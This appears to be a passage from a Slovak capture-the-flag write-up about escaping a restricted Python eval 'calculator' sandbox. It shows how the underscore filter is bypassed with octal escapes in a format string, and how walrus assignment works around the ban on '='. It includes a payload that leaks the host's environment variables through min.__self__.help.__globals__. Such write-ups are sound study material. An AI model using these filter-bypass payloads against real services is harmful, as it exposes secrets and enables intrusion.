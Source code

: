 ```python

def main():
    handle_client()


if __name__ == "__main__":
    main()
```

A tu vidíme najväčšie obmedzenie oproti prvej verzii calculatora... Vidíme, že máme obmedzené podtržníky aj ich unicode plnošírkového brata, takže kombinácia, ktorou môžeme využiť dunder metódy je nemožná.. Kvôli Connector puntuaction potrebujeme aspoň jeden základný podtržník, ktorý síce môže byť nasledovaný plnošírkovou verziou, ale bez toho štandardného sa nezabídeme.. Takže dunder  **D**ouble **UNDER** je nemožný.. `safe_globals` dictionary obsahuje kľúč `__builtins__` s veľmi obmedzeným množstvom funkcíí, zameranými výlučne na matematické operácie... Tu cesta nevedie... Môžeme síce použiť `lambda` ale opať len spolu s funkciami, ktoré sú definované v global namespace pre eval a teda v premmenej safe_globals. Vieme ale pivotovat atribútmi pomocou dunder, ale len vrámci string format, čo nám ale vždy vráti len stringovú reprezentáciu objektu/funkcie a pod., ale nie samotnú referenciu na objekt/funkciu,... 

Priradiť premenné pomocou `=` sa nedá, ale od nejakej verzie pythonu existuje tzv. `walrus` operátor `:=`. 

```
>>> a = 1
Error: invalid syntax (<string>, line 1)

>>> a:= 1
Error: invalid syntax (<string>, line 1)

>>> (a:= 1)
1

>>> a+a
2

>>> "{0.\137\137self\137\137.help.\137\137call\137\137.\137\137globals\137\137[sys].modules[os].environ}".format(min)
environ({'HOSTNAME': 'a6c6677c02e2', 'PYTHON_PIP_VERSION': '24.0', 'HOME': '/root', 'GPG_KEY': '7169605F62C751356D054A26A821E680E5FA6305', 'PYTHON_GET_PIP_URL': 'https://github.com/pypa/get-pip/raw/dbf0c85f76fb6e1ab42aa672ffca6f0a675d9ee4/public/get-pip.py', 'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'LANG': 'C.UTF-8', 'PYTHON_VERSION': '3.12.3', 'PWD': '/app', 'PYTHON_GET_PIP_SHA256': 'dfe9fd5c28dc98b5ac17979a953ea550cec37ae1b47a5116007395bfacff2ab9', 'SOCAT_PID': '8', 'SOCAT_PPID': '7', 'SOCAT_VERSION': '1.7.4.4', 'SOCAT_SOCKADDR': '172.24.0.228', 'SOCAT_SOCKPORT': '2337', 'SOCAT_PEERADDR': '172.24.0.2', 'SOCAT_PEERPORT': '57064', '_STDBUF_I': '0', '_STDBUF_O': '0', '_STDBUF_E': '0', 'LD_PRELOAD': '/usr/libexec/coreutils/libstdbuf.so'})

>>> (a := ("{0.\137\137self\137\137.help.\137\137call\137\137.\137\137globals\137\137[sys].modules[os]}".format(min)))
<module 'os' (frozen)>

>>> a()
Error: 'str' object is not callable
```
